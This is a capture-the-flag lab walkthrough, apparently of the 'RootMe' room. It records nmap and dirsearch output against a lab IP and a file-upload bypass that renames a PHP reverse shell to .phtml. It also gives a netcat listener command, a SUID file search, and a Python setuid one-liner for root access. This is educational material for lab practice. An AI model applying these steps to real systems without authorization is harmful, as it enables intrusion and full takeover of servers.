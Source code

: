 # RootMe

IP - 10.10.88.7

## Scanning and Enumeration
nmap scan:
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
```
dirsearch:
```
[22:18:58] 403 -   275B - /.php
[22:19:21] 301 -   306B - /css  ->  http://10.10.88.7/css/
[22:19:28] 200 -   616B - /index.php
[22:19:28] 200 -   616B - /index.php/login/
[22:19:30] 200 -   956B - /js/
[22:19:30] 301 -   305B - /js  ->  http://10.10.88.7/js/
[22:19:38] 301 -   308B - /panel  ->  http://10.10.88.7/panel/
[22:19:38] 200 -   732B - /panel/
[22:19:44] 403 -   275B - /server-status
[22:19:44] 403 -   275B - /server-status/
[22:19:50] 301 -   310B - /uploads  ->  http://10.10.88.7/uploads/
[22:19:50] 200 -   741B - /uploads/
```

## Exploit
- http://10.10.88.7/panel is vulnerable to file upload.
- http://10.10.88.7/uploads allows you to see the uploaded files.
- Tested website uploads and found out it allows .txt to be uploaded but .php gets denied.


## Reverse Shell
- In terminal navigate to ``` /usr/share/webshells/php/php-reverse-shell.php ```
- ``` cp php-reverse-shell.php ~/Documents/php_reverse_shell.phtml ``` (copy executable file to "Docuemnts" directory and change the file name to .phtml file).


*The file is renamed to .phtml to bypass upload restrictions on .php files, allowing us to upload and execute the PHP reverse shell.
![image](https://github.com/user-attachments/assets/b0e1c037-170e-4015-8f3b-68fd40c1035e)

- Upload the executable file in the website and then go to http://10.10.88.7/uploads.
- In the terminal start netcat listener - ``` nc -nlvp 4444 ``` > go back to the website and open the executable file to achieve the reverse shell.

## Post-Exploit
- To find user.txt - ``` find / -iname “user.txt” 2>/dev/null ```


![image](https://github.com/user-attachments/assets/88ea8174-23d7-4b2c-8e80-95ead92d3539)


# Priviledge Escalation
Found interesting file with SUID permissions that will allow priviledge escalation by typing - ``` find / -user root -perm -4000 2>/dev/null ```

reference - https://docs.oracle.com/cd/E19683-01/816-4883/6mb2joatb/index.html

![image](https://github.com/user-attachments/assets/40b3717f-6816-4dac-8153-f76aa1866927)

Escalated priviledges to be root user by typing - ``` /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")' ```

reference - https://gtfobins.github.io/gtfobins/python/

-> All is left to do is cd into root and cat the file.

